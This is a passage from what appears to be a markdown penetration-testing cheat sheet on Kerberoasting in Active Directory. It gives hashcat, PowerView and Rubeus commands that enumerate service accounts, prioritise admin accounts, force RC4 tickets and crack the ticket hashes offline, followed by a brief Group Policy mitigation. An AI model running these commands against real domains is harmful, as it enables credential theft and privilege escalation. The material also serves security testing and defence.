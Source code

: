 ``` Bash
# Crack it with hashcat
$ hashcat -m 13100 hashcat_sqldev_tgs /usr/share/wordlists/rockyou.txt 
```

### Tool Based methods

#### PowerView

``` PowerShell
# Using PowerView to enuemrate SPN accounts then extract one or all TGS tickets
PS C:\> Import-Module .\PowerView.ps1
PS C:\> Get-DomainUser * -spn | select samaccountname
# Exporting a sepcific account's TGS ticket.
PS C:\> Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
# Exporting All Tickets to a CSV File.
PS C:\> Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\domain_tgs.csv -NoTypeInformation
```

#### Rubeus
``` PowerShell
# Enumerate how much accounts are supporting RC4 and AES 128/256
PS C:\> Rubeus.exe kerberoast /stats

# Target high value accounts at first
PS C:\> Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap 

# Target a specific user account, returning a service ticket encrypted with the highest level of encryption supported by the target account. 
PS C:\> Rubeus.exe kerberoast /user:testspn /nowrap

# Target a specific user account, /tgtdeleg flag to return service ticket encrypted with RC4 .
PS C:\> Rubeus.exe kerberoast /tgtdeleg /user:testspn /nowrap
# Note: This does not work against a Windows Server 2019 Domain Controller, regardless of the domain functional level.
PS C:\> 

# Check the supported ecryption type attribute
# msDS-SupportedEncryptionTypes = (0) / (0x0)  -> defaults to RC4_HMAC_MD5
# msDS-SupportedEncryptionTypes = (24)/ (0x18) -> AES 128, AES 256
PS C:\> Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes 
```

Check [Supported Kerberos Encryption Types](https://techcommunity.microsoft.com/blog/coreinfrastructureandsecurityblog/decrypting-the-selection-of-supported-kerberos-encryption-types/1628797) for more knowledge about the `msDS-SupportedEncryptionTypes` attribute and what it's refer to.

---
## Mitigations and Detections

Edit the encryption types used by Kerberos
`Open Group Policy > Edit the defautl domain policy > Computer Configuration > Policies > Windows Settings > Security Settings > Local Policies > Security Options > double-click on (Network security: Configure encryption types allowed for Kerberos) `
